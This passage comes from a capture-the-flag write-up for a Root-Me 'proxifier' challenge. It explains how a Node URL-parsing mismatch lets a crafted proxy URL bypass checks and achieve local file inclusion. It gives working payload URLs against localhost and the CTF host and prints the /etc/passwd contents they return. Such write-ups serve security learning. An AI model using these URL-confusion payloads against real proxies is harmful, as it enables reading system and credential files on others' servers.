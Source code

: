 It doesn't seem to work... because I'm definitely stupid!

![](https://media.giphy.com/media/x0npYExCGOZeo/giphy.gif)

## The moment of stupidity

What this challenge taught me was how to properly read, because it seems this was not something I was able to do before. As written before, there are two lines of code concerned by Node's `URL` api.

```js
    host = new URL(pathname, `https://root-me.org/mizu`)["host"];
    pathname = new URL(pathname, `https://root-me.org/mizu`)["pathname"];
```

The very important part of these lines is the first parameter given to the `URL` constructor, which is `pathname` and not the complete url. It is taken from the previous `url-parse`, and therefore is the `/test` part of my URL.

With that information in mind, we can find the proper URL to bypass all verification and achieve a LFI.

```url
http://localhost:3000/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1:/index.html
```

You may wonder what these `%0A%0D` are? They are artefacts of what I was trying to do before discovering I was stupid (but are not relevant in this writeup). We could probably not use them, but I think they look nice here, don't you think

![](./img/proxifier-6.png)

It works! I get a "no such file or directory", but this doesn't really bother me. I know my LFI works properly and can now exploit it to the real website.

## Gaining knowledge

The last part (and the one I prefer): finding a way to extract the flag with this simple LFI.

```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/etc/passwd
```

With this payload, we retrieve `/etc/passwd`. We learn that there is an apache server running, and many other users are created but they do not interest us. While I could skip this step, it gives me proof that my LFI is working.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```